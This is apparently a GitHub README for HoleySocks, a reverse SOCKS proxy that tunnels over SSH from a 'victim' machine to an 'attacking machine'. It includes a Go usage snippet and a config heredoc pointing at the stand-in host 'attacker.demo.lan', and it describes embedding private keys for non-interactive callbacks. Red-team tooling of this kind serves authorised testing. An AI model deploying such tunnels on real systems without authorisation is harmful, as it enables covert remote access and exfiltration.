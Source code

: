# HoleySocks

A cross-platform reverse socks proxy.


## Getting Started

### As a module

```go
import github.com/audibleblink/holeysocks/pkg/holeysocks

func main() {
	//error handling removed for brevity
	config := holeysocks.MainConfig{}
        configBytes, _ := ioutil.OpenFile("ssh.json")
        json.Unmarshal(configBytes, &config)
	
	sshKey, _ := ioutil.OpenFile("id_ed25519")
	config.SSH.SetKey(sshKey)
	holeysocks.ForwardService(config)
}
```

### As a standalone binary

It's required to embed all the parameters needed to start and forward the socks server with SSH.
Do this by creating `config/ssh.json` and using `make`

```bash
cat <<EOF > configs/ssh.json
{
  "ssh": {
    "username": "sshuser",
    "host": "attacker.demo.lan",
    "port": 22
  },
  "socks": { "remote": "127.0.0.1:1080" }
}
EOF

make
```
**CAUTION**
The generated private keys are embedded into the binary to allow for the reverse
port forwarding without interaction. Follow the instructions below.

Before running the generated binaries, you'll need a user on your attacking machine
for receiving the reverse ssh connection that forwards the socks proxy from the victim.

Once that user has been created, (with a homedir and /bin/false shell), append the generated
pubkey in your authorized_keys file on the attacking machine.

The Makefile should generate the needed commands and entry for you when you run `make`
